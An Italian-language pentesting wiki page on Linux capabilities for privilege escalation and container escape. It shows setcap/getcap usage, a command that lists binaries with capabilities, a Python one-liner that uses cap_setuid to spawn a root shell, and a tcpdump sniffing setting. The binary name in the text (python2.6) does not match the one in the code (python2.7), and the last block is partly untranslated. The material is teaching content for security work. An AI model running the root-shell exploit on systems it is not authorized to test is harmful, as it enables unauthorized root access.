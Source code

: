<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​​​​​​​​​[**RootedCON**](https://www.rootedcon.com/) è l'evento di sicurezza informatica più rilevante in **Spagna** e uno dei più importanti in **Europa**. Con **la missione di promuovere la conoscenza tecnica**, questo congresso è un punto di incontro vivace per i professionisti della tecnologia e della sicurezza informatica in ogni disciplina.

{% embed url="https://www.rootedcon.com/" %}

## Privesc/Container Escape

Le capacità sono utili quando **si desidera limitare i propri processi dopo aver eseguito operazioni privilegiate** (ad esempio, dopo aver impostato chroot e collegato a una socket). Tuttavia, possono essere sfruttate passando loro comandi o argomenti dannosi che vengono quindi eseguiti come root.

È possibile forzare le capacità sui programmi utilizzando `setcap` e interrogarle utilizzando `getcap`:
```bash
#Set Capability
setcap cap_net_raw+ep /sbin/ping

#Get Capability
getcap /sbin/ping
/sbin/ping = cap_net_raw+ep
```
Il `+ep` significa che stai aggiungendo la capacità ("-" la rimuoverebbe) come Effettiva e Consentita.

Per identificare i programmi in un sistema o una cartella con le capacità:
```bash
getcap -r / 2>/dev/null
```
### Esempio di sfruttamento

Nell'esempio seguente viene individuata una vulnerabilità di escalation dei privilegi nel binario `/usr/bin/python2.6`:
```bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
**Capacità** necessarie da `tcpdump` per **consentire a qualsiasi utente di intercettare pacchetti**:

```markdown
To allow any user to sniff packets with `tcpdump`, the following capabilities need to be set:

1. `CAP_NET_RAW`: This capability allows the user to create raw sockets, which is necessary for packet sniffing.

To set these capabilities, you can use the `setcap` command:

```bash
sudo setcap cap_net_raw=eip /usr/sbin/tcpdump
```
